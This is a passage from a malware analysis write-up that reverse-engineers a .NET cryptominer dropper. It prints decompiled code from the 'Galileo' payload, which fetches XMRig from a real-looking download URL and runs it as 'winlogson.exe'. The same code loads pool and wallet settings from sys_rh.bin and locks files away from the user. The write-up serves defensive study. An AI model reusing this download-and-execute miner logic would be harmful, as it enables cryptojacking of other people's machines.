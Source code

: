 
`LDR.DAF()` downloads a file from a URL, renames it and stores it in a path and then starts it up in a new process. This would explain the `Dllhost.exe` process (which was spinning up the XMRig miners!)

## Dllhost.exe -> 'Task24Watch.exe'

Now that we have the 'final payload', things start to get much more interesting. The application again is WinForms app, albeit the class here is called 'Galileo'. This payload is obfuscated in the same way our Task24Main payload was. Taking a look at it's constructor 

```cs
public Galileo()
{
    _XTzBsaEo0mNKCLfXSB7E1u9bQlq();
    _FAOk3EplvOmghcsRyS67PhCD6eP();
    ConnectToBridge(); // open sys_rh.bin, generate config
    CreateFiles(); // create C:\ProgramData\SystemFiles\
    getparam();
    MNstart();

    // download and install xmrig miner
    // LDR.DAF("https://dl.uploadgram.me/631f08c8b80b9h?raw", "C:\\ProgramData\\Dllhost\\", "winlogson.exe")
    LDR.DAF(Crypter.Decrypt(linkxmr, keycode), MPath, <Module>.smethod_1<string>(3285906249u));

    // wait for the miner to start up before starting threads
    Thread.Sleep(20000);
    new Thread(Watch.StopOn).Start();
    new Thread(CheckRun).Start();

    // set file security to restrict user access
    Watch.SecureFiles();
}
```

Remember that `sys_rh.bin` file that was generated by a method called `MakeBridge()` we saw earlier? Looking at the call to `ConnectToBridge()` shows us that it opens and reads each line from that file and stores them in some interestingly named fields.

```cs
public static void ConnectToBridge()
{
    string text = <Module>.smethod_2<string>(2668717338u); // "sys_rh.bin"
    string text2 = <Module>.smethod_5<string>(4249199086u);
    string folderPath = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData);
    string tempPath = Path.GetTempPath();
    try
    {
        if (File.Exists(FPath + text)) // @"C:\ProgramData\SystemFiles\sys_rh.bin"
        {
            string[] array = File.ReadAllLines(FPath + text); // @"C:\ProgramData\SystemFiles\sys_rh.bin"
            linklol = array[0];
            linkxmr = array[1];
            xmrpool = array[2];
            etcpool = array[3];
            ethpool = array[4];
            xmrwal = array[5];
            etcwal = array[6];
            ethwal = array[7];
            workername = array[8];
            minepassword = array[9];
            keycode = array[10];
        }
        else if (File.Exists(text2 + text))
```